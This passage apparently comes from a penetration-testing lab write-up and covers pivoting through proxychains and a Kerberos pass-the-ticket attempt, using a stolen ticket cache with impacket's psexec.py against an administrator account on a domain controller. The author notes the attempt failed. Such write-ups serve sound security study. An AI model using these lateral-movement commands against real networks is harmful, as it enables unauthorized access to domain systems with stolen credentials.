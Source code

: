 <br/>

Now check the listening ports on the attacker machine using `netstat`:

```
netstat -antup | grep 4445
```

![picture 10](images/169782a784c91c2a340e63747d62f593caf7f85d565fabd216929d163153578c.png)  

<br/>

Then change the http socks port in  `/etc/proxychains.conf`:
![picture 12](images/e6ec86dfb4b64730a2e324c99c720a7f3f6ca780e1db4cc01356344fae60ace8.png)  
 

<br/>

## Pass-the-Ticket

To use krb ticket, first install the following package:

```
apt install -y krb5-user
```

<br/>

Then use impacket to pass-the-ticket:

```
export KRB5CCNAME=./krb5cc_123
```

```
echo "10.1.1.2 OPS-CHILDDC" >> /etc/hosts
```

```
proxychains psexec.py -k -no-pass -debug -dc-ip 10.1.1.2 adm_domain@OPS-CHILDDC
```

<br/>

However, it is not successful. A possible reason is the time difference of the attacker machine and the target is greater than 15 minutes.
